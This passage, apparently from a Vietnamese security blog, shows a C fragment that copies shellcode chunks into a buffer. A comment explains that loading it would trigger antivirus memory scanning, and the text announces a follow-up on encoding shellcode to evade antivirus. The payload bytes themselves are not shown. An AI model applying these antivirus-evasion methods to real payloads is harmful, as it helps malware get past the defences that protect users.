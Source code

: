 ```c
  memcpy(&sc[16 * 7], sc_7, 16);
  memcpy(&sc[16 * 8], sc_8, 16);
  memcpy(&sc[16 * 9], sc_9, 16);
  memcpy(&sc[16 * 10], sc_10, 16);
  memcpy(&sc[16 * 11], sc_11, 16);
  memcpy(&sc[16 * 12], sc_12, 16);
  memcpy(&sc[16 * 13], sc_13, 16);
  memcpy(&sc[16 * 14], sc_14, 16);
  memcpy(&sc[16 * 15], sc_15, 16);
  memcpy(&sc[16 * 16], sc_16, 16);
  memcpy(&sc[16 * 17], sc_17, 16);
}
int main() {
  //if run build_sc(), shellcode will load to memory, AV scan memory will detection it. Need encode payload.
  //build_sc();
}
```
Trong phần tiếp theo, mình sẽ trình bày về các phương pháp encode shellcode để tránh AV.